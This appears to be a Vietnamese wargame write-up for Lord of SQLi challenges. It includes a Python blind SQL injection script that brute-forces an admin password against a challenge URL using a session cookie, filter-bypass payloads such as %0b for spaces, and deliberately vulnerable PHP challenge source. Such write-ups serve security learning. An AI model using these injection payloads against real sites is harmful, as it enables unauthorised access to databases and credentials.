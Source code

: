 ```python
import requests
import string

char = string.printable
url="https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php"
header = {'Cookie':'PHPSESSID=1k033ilrvrlrsps5aktrqc28hq'}
session = requests.Session()
pw = ''

for i in range(1,16):
    for c in char: 
        temp = pw + c
        param = f'pw=1&no=1||true%26%26id%09in("admin")%26%26left(pw,{i})%09IN("{temp}")--%09-'
        print(param)
        r = session.get(url = url , params = param , headers = header )
        if "Hello admin" in r.text:
            pw += c
            print(pw)
            break

```

## GIANT (space filter)

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>
```

Chúng ta có một số kí tự để thay thế khoảng trắng như: `%20`-> `` , `%0a`->, `%0d`->, `%09`-> nhưng hầu hết mấy kí tự này đều bị filter nhưng chúng ta có thể sử dụng `%0b` hoặc `%0c` để thay thế khoảng trắng&#x20;

\=> /?shit=%0b

## Assassin

```parigp
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>hp
```
